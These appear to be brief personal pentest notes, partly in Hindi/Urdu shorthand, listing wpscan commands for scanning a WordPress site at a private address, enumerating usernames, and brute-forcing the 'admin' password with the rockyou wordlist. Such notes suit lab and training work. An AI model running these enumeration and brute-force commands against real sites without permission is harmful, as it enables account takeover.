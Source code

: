 3attack -> themes / plugin / bruteforce

wpscan --url "10.0.0.1/wordpress"          -> /wordpress ka use ko use ya dal

wpscan --url "10.0.0.1/wordpress" -e u         -> -e for enum / u for username

wpscan --url "10.0.0.1/wordpress" -U admin -P /usr/share/wordlists/rockyou.txt
